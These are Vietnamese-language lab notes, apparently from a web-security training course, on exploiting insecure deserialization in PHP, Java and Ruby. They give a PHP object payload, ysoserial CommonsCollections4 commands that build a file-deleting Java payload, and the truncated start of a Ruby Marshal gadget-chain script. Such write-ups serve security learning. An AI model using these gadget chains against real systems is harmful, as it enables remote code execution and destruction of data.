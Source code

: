 Ta tìm được 1 path `libs/CustomTemplate.php~`

Ở đây class `CustomTemplate` có `__destruct()` là magic method. Hàm này sẽ xem thử `lock_file_path` có tồn tại ko và xóa nó. 

Payload: `O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`

## Exploiting Java deserialization with Apache Commons

Xác định nơi sử dụng serialize

Tạo payload:

Dùng lệnh `wsl` để mở ubuntu rồi chạy 1 trong 2 lệnh (nếu lệnh 1 lỗi):

- `java -jar ysoserial.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0 > text.txt`


- `java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED -jar ysoserial.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0 > text.txt`

copy rồi encode về URL encode

## Exploiting PHP deserialization with a pre-built gadget chain

Tool `phpggc` trong Download Kali

Bài 6 [text](<../Insecure deserialization/readme.md>)

## Exploiting Ruby deserialization using a documented gadget chain

ta thấy `marshal file format` -> Ruby serialize 

Chạy payload ở https://www.programiz.com/ruby/online-compiler/

```ruby
require 'rubygems'
require 'base64'

# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

require 'net/http'

module Net
  class WriteAdapter
    def initialize(obj, method = :<<)
      @socket = obj
      @method_id = method
    end
  end
end

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

```